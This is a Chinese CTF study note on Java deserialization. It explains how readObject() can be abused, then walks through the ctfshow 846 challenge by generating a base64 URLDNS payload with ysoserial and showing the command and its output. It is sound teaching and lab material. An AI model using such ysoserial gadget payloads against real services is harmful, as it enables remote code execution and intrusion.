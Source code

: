# JAVA反序列化

<br>

### 序列化调用的函数

序列化：java.io.ObjectOutputStream 类中的 writeObject()
实现 Serializable 和 Externalizable 接口的类才能被序列化

<br>

### 反序列化调用的函数

反序列化：java.io.ObjectInputStream 类中的 readObject()

<br>

在 Java中，重写的方法会优先执行。如果重写了readObject()，并且函数中某个参数的输入可控，那么攻击者就可以输入任意命令(代码)。在反序列化过程中调用readObject()方法时，就会执行恶意命令，造成攻击

<br>

### 课程

https://space.bilibili.com/2142877265/channel/collectiondetail?sid=29805&ctype=0


https://www.bilibili.com/video/BV16h411z7o9/?spm_id_from=333.999.0.0&vd_source=23c2bbe4623ae526416ea7a1ec4679fc

<br>

## 例题

<br>

#### URLDNS链

URLDNS链不能执行命令，通常作为验证是否存在反序列化漏洞的一种方式。

脚本 ysoserial.jar

用法

````
java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
````

URLDNS例题        来自ctfshow846

ctfshow会对你post提交的ctfshow参数进行base64解码
然后进行反序列化
构造出对当前题目地址的dns查询即可获得flag 

<img src="https://54huarui.github.io/blogs/javax/x0.png" width="880" height="480">

````
┌──(root💀kali)-[/home/huarui/桌面/java tool]
└─# java -jar ysoserial.jar URLDNS "http://bb7c5da6-cbdd-4585-8c3e-9793141c140f.challenge.ctf.show/"|base64
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVz
aG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFz
aENvZGVJAARwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgAD
TAAEaG9zdHEAfgADTAAIcHJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QAN2JiN2M1
ZGE2LWNiZGQtNDU4NS04YzNlLTk3OTMxNDFjMTQwZi5jaGFsbGVuZ2UuY3RmLnNob3d0AAEvcQB+
AAV0AARodHRwcHh0AD9odHRwOi8vYmI3YzVkYTYtY2JkZC00NTg1LThjM2UtOTc5MzE0MWMxNDBm
LmNoYWxsZW5nZS5jdGYuc2hvdy94
````

然后将playload输入即可

<img src="https://54huarui.github.io/blogs/javax/javax.png" width="880" height="480">

